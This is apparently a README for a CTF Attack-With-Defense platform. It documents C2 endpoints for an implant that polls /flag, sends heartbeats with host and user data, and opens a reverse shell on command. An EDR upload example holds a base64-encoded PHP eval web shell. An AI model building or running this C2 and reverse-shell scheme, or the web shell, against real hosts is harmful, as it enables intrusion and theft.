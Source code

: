 # AWD中台

## 命令行参数

```
-u string
    用户名 (默认: 0RAYS)
-p string  
    密码 (必需，无默认值)
-P string
    监听端口 (默认: 26666)

示例:
./0rays-awd-platform.exe -u 0RAYS -p 0raysnb -P 26666
```

## API接口说明

### 说明

一个简单的远控, 每1秒读取一次/flag, 然后判断是否有变化, 如果有变化就发到c2那边

每60秒一次心跳包, 心跳包里面上传主机名, 用户名等数据

如果心跳包api返回1, 则代表需要反弹shell, 这个时候从get-rs api获取, 然后建立反弹shell

### C2客户端接口

#### 提交Flag

```
POST /api/c2/submit-flag
Content-Type: application/json

{
	"flag": "flag{test_flag}"
}
```

#### 心跳包

```
POST /api/c2/heartbeat
Content-Type: application/json

{
    "hostname": "web01",
    "userinfo": "www-data(1000)", 
    "processinfo": "bash(36812)"
}

Response: 0 或 1 (是否需要反弹shell)
```

#### 获取反弹Shell地址

```
GET /api/c2/get-rs
Response: 192.168.1.100:1337
```

---

### 说明

告警和监控文件

告警上传的文件会放在/edr_files文件夹下面隔离

### Agent EDR接口

#### EDR告警

```
GET /api/agent/edr-alert?type=warning&message=检测到可疑文件.shell.php

参数说明:
- type: 告警类型 (warning, info, success)
- message: 告警消息内容

Response: 200 OK

注意: title固定为"EDR消息"
```

#### 上传可疑文件

```
POST /api/agent/edr-suspicious-file
Content-Type: application/json

{
    "filename": ".shell.php",
    "path": "/var/www/html/",
    "content": "PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg=="
}

注意: 
- filename: 文件名，会自动过滤路径穿越字符
- path: 文件所在路径
- content: base64编码的文件内容
- 文件大小限制10MB (base64编码前)
- 此API不会自动产生告警消息，需要EDR agent自行调用edr-alert API
```

